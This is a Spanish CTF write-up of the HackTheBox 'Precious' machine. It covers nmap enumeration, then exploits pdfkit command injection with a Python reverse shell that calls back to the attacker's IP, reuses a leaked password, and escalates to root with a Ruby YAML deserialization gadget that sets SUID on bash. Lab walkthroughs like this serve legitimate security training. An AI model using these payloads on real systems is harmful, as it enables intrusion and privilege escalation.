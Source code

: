 ```yaml
---
layout: post
title: HackTheBox Precious - Command injection y YAML deserialization
author: c4rta
date: 2023-01-02
categories: [Maquinas, HackTheBox]
tags: [Command injection, YAML deserialization]
---
```



## Enumeracion

Iniciamos con un escaneo de nmap con el comando:

```
nmap -sS -n -Pn --open -p- 10.10.11.189
```
El cual le estamos diciendo que con:

- sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto,e sto con el fin de iniciar la conexion sin que termine

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Esto nos reportara 2 puertos abiertos:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Asi que ahora escanearemos para saber la version y servicio que esta corriendo por detras:

```
sudo nmap -sCV -p22,80 10.10.11.189
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto de SSH abierto, pero aun no podemos hacer mucha cosa, y el puerto 80, el cual de primeras nos dice que podemos convertir una pagina web a un pdf: ```http-title: Convert Web Page to PDF```

Si nos dirigimos a la pagina web, podemos ver que esta esperando por una URL, asi que para comprobar que se puede convertir a PDF, iniciaremos un servidor web con python:

```python3 -m http.server 8080```

Y le pasaremos la URL

![](/assets/img/precious/precious1.png)

Y efecto, convierte la pagina a un pdf, y me muestra el contenido de mi directorio /Desktop

![](/assets/img/precious/precious2.png)

En este punto, una buena idea es ver un poco de los metadatos del pdf, usaremos la herramienta ```exiftools``` (aun que por alguna razon no me jala, asi que usare esta [web](https://exif.tools/))

Y podemos ver que para generarlo esta usando pdfkit:

![](/assets/img/precious/precious3.png)

## Command Injection

La version de pdfkit que genero el pdf es la ```v0.8.6```, asi que... Nunca es mala idea buscar si existe un exploit para la version de algo.

Econtre que esa version de vulnerable a ```Command injection``` a travez del parametro ```name``` 

Lee [aqui](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) si quieres saber mas

Asi que intentare ejecutar el comando ```whoami``` para ver si funciona:

```
http://10.10.14.102:8080/?name=%20`whoami`
```

![](/assets/img/precious/precious4.png)

Y una vez sabiendo que si funciona, por lo tanto tenemos Remote Command Execution(RCE), nos mandaremos una reverse shell con python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Y la URL queda:

```
http://10.10.14.102:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
Recuerda editar la IP por la que te dio HTB

## Flag de user

Al lista el contenido podemos ver varios directorios:

```bash
ruby@precious:~$ ls -lha
ls -lha
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Apr 10 16:46 .
drwxr-xr-x 4 root root 4.0K Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Apr 10 16:46 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Navegando un poco, encontre que en el directorio ```.bundle``` hay un archivo de configuracion el cual tiene unas credenciales:

```bash
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Y recordemos que tenemos el puerto del SSH abierto, asi que nos conectaremos por ssh con las credenciales que nos aparecen ahi.

usuario: henry

contraseña: Q3c1AqGHtoI0aXAYFH

Y ahora si ya podemos ver la flag de user:

```bash
henry@precious:~$ cat user.txt 
8cee1d827eb735217879ec75ce6d2751
```

## Flag de root

Primeramente ingresare el comando ```sudo -l``` para poder ver que podemos ejecutar como root desde el usuario ```henry```

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Nos dice que podemos ejecutar el archivo ```update_dependencies.rb```

Asi que vamos a pasar a ver el contenido del archivo:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Me doy cuenta que esta intentando cargar un archivo que se llama ```dependencies.yml```, el cual no se le esta indicando la ruta, es decir, que lo trata de cargar desde el directorio actual donde se encuentra el usuario, entonces... ¿Por que no crearlo?, y ademas esta usando la funcion ```YAML.load()``` la cual es vulnerable a un ataque```YAML deserialization``` el cual deriva de un RCE, para saber como explotarlo nos guiaremos de [aqui](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

Crearemos un archivo yml con el nombre ```dependencies.yml``` en el directorio actual, con el contenido:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Donde le estamos diciendo que ejecute el comando ```chmod +s /bin/bash``` que le asigna permisos SUID a /bin/bash

Y por ultimo ejecutamos el archivo:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Y ya somos root:

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
95ff0867c3156b05a0f2d49fc6b1ba48
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/precious/waifu.gif)



